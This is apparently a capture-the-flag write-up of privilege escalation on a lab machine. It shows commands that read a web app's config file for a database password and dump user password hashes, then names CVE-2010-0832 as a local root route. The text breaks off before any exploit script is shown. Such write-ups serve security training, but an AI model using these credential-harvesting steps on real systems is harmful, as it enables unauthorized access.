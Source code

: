 ## Privilege Escalation

- mysql recon -> cred -> web admin password hash -> uncrackable

```console
www-data@popcorn:/var/www/torrent$ cat config.php | grep -B5 -A5 -i pass
cat config.php | grep -B5 -A5 -i pass
  //Edit This For TORRENT HOSTER Database
  //database configuration
  $CFG->host = "localhost";
  $CFG->dbName = "torrenthoster";       //db name
  $CFG->dbUserName = "torrent";    //db username
  $CFG->dbPassword = "SuperSecret!!";   //db password

        $dbhost         = $CFG->host;
        $dbuser         = $CFG->dbUserName;
        $dbpass         = $CFG->dbPassword;
        $database       = $CFG->dbName;
        
mysql> select userName,password,privilege from users;
select userName,password,privilege from users;
+----------+----------------------------------+-----------+
| userName | password                         | privilege |
+----------+----------------------------------+-----------+
| Admin    | d5bfedcee289e5e05b86daad8ee3e2e2 | admin     |
| abcd     | e2fc714c4727ee9395f324cd2e7f331f | user      |
| qwe      | c4ca4238a0b923820dcc509a6f75849b | user      |
+----------+----------------------------------+-----------+
3 rows in set (0.00 sec)
```

- unusual file recon -> `motd.legal-displayed` priv esca -> **CVE-2010-0832**

```console
www-data@popcorn:/home/george$ find . -type f -ls
    76    4 -rw-r--r--   1 george   george        220 Mar 17  2017 ./.bash_logout
    82    4 -rw-r--r--   1 george   george       3180 Mar 17  2017 ./.bashrc
 42885  832 -rw-r--r--   1 george   george     848727 Mar 17  2017 ./torrenthoster.zip
 42883    0 -rw-r--r--   1 george   george          0 Mar 17  2017 ./.cache/motd.legal-displayed
 42884    0 -rw-r--r--   1 george   george          0 Mar 17  2017 ./.sudo_as_admin_successful
  2210    4 -rw-r--r--   1 george   george         33 Dec 29 05:45 ./user.txt
   107    4 -rw-r--r--   1 george   george        675 Mar 17  2017 ./.profile
```

### Script Exploit of CVE-2010-0832

**PAM_MOTD** (aka the MOTD module) in libpam-modules before 1.1.0-2ubuntu1.1 in PAM on Ubuntu 9.10 and libpam-modules before 1.1.1-2ubuntu5 in PAM on Ubuntu 10.04 LTS allows local users to change the ownership of arbitrary files via a symlink attack on .cache in a user's home directory, related to "user file stamps" and the motd.legal-notice file.

environment is suitable:

```console
www-data@popcorn:/home/george$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=9.10
DISTRIB_CODENAME=karmic
DISTRIB_DESCRIPTION="Ubuntu 9.10"
```
